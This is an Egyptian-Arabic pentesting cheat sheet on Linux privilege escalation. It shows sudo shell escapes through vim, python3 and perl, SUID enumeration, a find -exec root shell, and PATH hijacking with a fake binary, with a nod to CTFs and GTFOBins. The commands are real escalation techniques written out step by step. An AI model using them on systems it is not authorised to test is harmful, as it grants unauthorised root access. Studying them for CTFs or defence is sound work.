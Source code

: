 # 🔥 **1. استغلال أوامر sudo (Abusing Sudo Privileges)**

في بعض الأحيان، المستخدم بيكون عنده صلاحية تشغيل أوامر معينة بـ `sudo` من غير كلمة مرور، وده ممكن يكون مدخل للاستغلال.

## 🔹 **1.1 معرفة الأوامر اللي نقدر نشغلها بـ sudo**

أول خطوة إنك تشوف إيه الأوامر اللي تقدر تشغلها بـ `sudo`:

```bash
sudo -l
```

ده هيعرض قائمة بالأوامر المسموح بيها. لو لقيت أمر ممكن تستخدمه لفتح Shell، يبقى عندك طريق للاستغلال.

## 🔹 **1.2 استغلال أوامر فيها ثغرات للتصعيد**

لو مثلا الأمر `vim` موجود في القائمة، تقدر تفتح **Shell بصلاحيات root** كالتالي:

```bash
sudo vim -c '!sh'
```

أو لو `python3` متاح:  

```bash
sudo python3 -c 'import pty; pty.spawn("/bin/bash")'
```

نفس الفكرة مع `perl`:

```bash
sudo perl -e 'exec "/bin/sh";'
```

أوامر تانية زي `find`، `awk`، `tar`، و `zip` ليهم نفس الاستغلالات. ممكن تستخدم موقع **GTFOBins** للبحث عن أي أمر عندك وتشوف استغلاله:  
[https://gtfobins.github.io/](https://gtfobins.github.io/)

### ✅ **الخلاصة بالعامية:**

لو تقدر تشغل أوامر معينة بـ `sudo`، دور على أمر ممكن يفتح لك Shell بصلاحيات **root**. استخدم `sudo -l` وشوف لو فيه حاجة تقدر تستغلها.

---

# 🔥 **2. استغلال ملفات SUID (Abusing SUID Binaries)**

## 🔹 **2.1 البحث عن ملفات SUID**

نستخدم الأمر ده للبحث عن كل الملفات اللي عليها SUID:

```bash
find / -perm -4000 2>/dev/null
```

ده هيجيب كل الملفات اللي بتشتغل بصلاحيات صاحبها (غالبًا root).

## 🔹 **2.2 استغلال ملف SUID بيشغل أوامر**

لو لقيت ملف زيه زي `find` عنده SUID، تقدر تشغله كالتالي:

```bash
/usr/bin/find . -exec /bin/bash -p \;
```

وده هيفتح لك Shell بصلاحيات root.

## 🔹 **2.3 لو ملف SUID بيستدعي أمر غير آمن**

لو عندك ملف `custom_script` وعرفت إنه بيستدعي `ls` مثلًا جواه، تقدر تعمل التالي:

```bash
echo "/bin/sh" > ls
chmod +x ls
export PATH=.:$PATH
/custom_script
```

وده هيشغل Shell بصلاحيات root لإنه بيستخدم `ls` من الـ PATH اللي انت عدلته.

## ✅ **الخلاصة بالعامية:**

لو فيه ملف عليه SUID، جرب تشوف بيعمل إيه، ولو بيشغل أوامر، ممكن تخليه يشغل Shell بصلاحيات root.

---

# 🚀 **خطوات Pentesting عملية لاستغلال sudo و SUID**

## 🔥 **1. استغلال sudo (Privilege Escalation via Sudo)**

### ✅ **الخطوات:**

1. شوف إيه الأوامر اللي تقدر تشغلها بـ `sudo`:
    
    ```bash
    sudo -l
    ```
لو النتيجه طلعت كده 
![[Pasted image 20250315152254.png]]
اعمل الاتي

2. لو لقيت أمر ممكن يستغل، جرب تشغيل Shell:
    
    ```bash
    sudo python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```
    
3. لو لقيت أمر بيشغل ملفات، جرب تعمل **Hijacking** للملف اللي بيشغله.

---

## 🔥 **2. استغلال SUID (Privilege Escalation via SUID Binaries)**

### ✅ **الخطوات:**

1. دور على كل ملفات SUID:
    
    ```bash
    find / -perm -4000 2>/dev/null
    ```
    
2. شوف لو فيه أمر معروف عنده SUID، زي `find` أو `vim` أو `bash`:
    
    ```bash
    /usr/bin/find . -exec /bin/bash -p \;
    ```
    
3. لو الملف بيستدعي أمر معين، اعمل **Hijacking** باستخدام PATH Variable:
    
    ```bash
    echo "/bin/sh" > fake_ls
    chmod +x fake_ls
    export PATH=.:$PATH
    /custom_script
    ```
    

---

## 🔥 **الخلاصة العامة بالعامية:**

1. **sudo -l** ده أول حاجة تشوفها، لو تقدر تشغل حاجة بـ sudo بدون باسورد، غالبًا تقدر توصل لـ root.
2. **لو لقيت SUID file**، شوف بيعمل إيه، وجرب تشغله بطرق مختلفة.
3. **لو ملف بيستدعي أوامر خارجية**، حاول تلعب في الـ PATH وتخليه يشغل حاجة انت عاملها بنفسك.

💡 **نصيحة**: لو بتلعب في CTF أو بتعمل **Privilege Escalation**، دايمًا جرب **GTFOBins** و `sudo -l` و `find / -perm -4000` كخطوات أولى. 🚀